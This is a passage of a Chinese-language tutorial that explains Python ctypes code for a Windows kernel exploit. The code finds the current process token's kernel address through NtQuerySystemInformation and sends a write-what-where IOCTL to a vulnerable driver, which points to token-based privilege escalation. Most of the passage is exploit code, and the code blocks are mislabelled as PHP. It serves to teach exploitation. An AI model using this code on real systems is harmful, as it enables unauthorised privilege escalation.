 ```php
        if _filter and handle != _filter.value:
            continue
        break # Found
    return address

```

`get_token_address()`获取当前进程的令牌句柄地址。它首先打开当前进程的令牌句柄，然后通过调用`NtQuerySystemInformation`查询所有系统句柄，最后调用`get_token_by`来获取与当前进程令牌匹配的句柄地址：

```php
def get_token_address():
    status_info_length_mismatch = 0xC0000004
    token_query = 8

    current_process_handle = HANDLE(kernel32.GetCurrentProcess())
    pid = kernel32.GetCurrentProcessId()
    print('[+] Current Process PID: ' + str(pid))
    p_handle = HANDLE()

    if OpenProcessToken(current_process_handle, token_query, byref(p_handle)) == 0:
        print('[-] Error getting token handle: ' + str(kernel32.GetLastError()))
        sys.exit(1)

    print('[+] Found token handle at: {:08x}'.format(p_handle.value))

    nt_status = status_info_length_mismatch
    return_length = DWORD(0)
    system_information_length = 0
    handle_info = (c_ubyte * system_information_length)()

    while nt_status == status_info_length_mismatch:
        system_information_length += 0x1000
        handle_info = (c_ubyte * system_information_length)()
        nt_status = ntdll.NtQuerySystemInformation(
            SystemExtendedHandleInformation,
            byref(handle_info),
            system_information_length,
            byref(return_length)
        )

    token = get_token_by(pid, handle_info, _filter=p_handle)
    if token is None:
        print('[-] Error fetching token address')
        sys.exit(1)
    print('[+] Found token at {:08x}'.format(token))
    return token
```

然后通过write使用设备IO控制向指定内存地址写入数据：

```php
def write(where):
    global device_handle

    bytes_returned = c_ulong()
    ioctl_arbitrary_overwrite = 0x226003

    user_data = c_buffer(32)
    user_data_p = addressof(user_data) + 32

    write_what_where = WriteWhatWhere()
    # Must be eight or we won't reach the vulnerable function
    write_what_where.Header = 0x8
    # Pointer to userland buffer
```